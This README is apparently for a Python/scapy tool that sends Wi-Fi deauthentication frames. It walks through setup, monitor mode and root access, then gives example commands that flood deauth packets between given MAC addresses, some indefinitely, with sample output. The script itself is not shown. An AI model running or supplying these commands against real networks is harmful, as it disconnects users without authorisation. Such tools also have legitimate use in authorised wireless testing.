# Wi-Fi Deauthentication

Script to deauthenticate Wi-Fi connections.

## Prepare environment

- you can use Python virtualenv
- Python3.x is needed
- Wi-Fi interface must be in "Monitor Mode" (_you can read [here](https://softwaretester.info/wifi-monitor-mode-basics/) how to do_)
- root rights required (_or via sudo_)

```shell
# install needed packages
$ sudo apt install python3-pip python3-venv
# or
$ sudo pip3 install virtualenv

# create and change into Project directory
$ mkdir -p ~/Projects/WifiDeauth && cd ~/Projects/WifiDeauth

# create virtualenv
$ virtualenv -p python3 venv
# or
$ python3 -m venv venv

# activate virtualenv
$ . venv/bin/activate

# install requirements
(venv) $ pip install -r requirements.txt
# or
(venv) $ pip install scapy

# list packages (optional)
(venv) $ pip freeze

# make file executable
(venv) $ chmod u+x WifiDeauth.py 
```

## Run Wi-Fi Deauthenticator

just run it...

```shell
# show help (optional)
(venv) $ sudo venv/bin/python ./WifiDeauth.py --help

# start sending deauth packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 100ms infinite
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62'

# start sending deauth packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 100ms infinite
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -n 0

# start sending deauth packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 200ms infinite
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -i '0.2'

# start sending deauth 30 packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 100ms
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -n 30

# start sending deauth 50 packets from '80:30:dc:c2:dd:62' to '55:67:51:c3:2c:b4' every 300ms
(venv) $ sudo venv/bin/python ./WifiDeauth.py wlan1 '55:67:51:c3:2c:b4' '80:30:dc:c2:dd:62' -n 50 -i '0.3'
```

to interrupt press [CTRL + c]

## Example output

some example from my terminal...

```shell
Sending 50 frames every 0.3s to 55:67:51:c3:2c:b4 from 80:30:dc:c2:dd:62
..................................................
Sent 50 packets.
```

[Go back](../README.md)
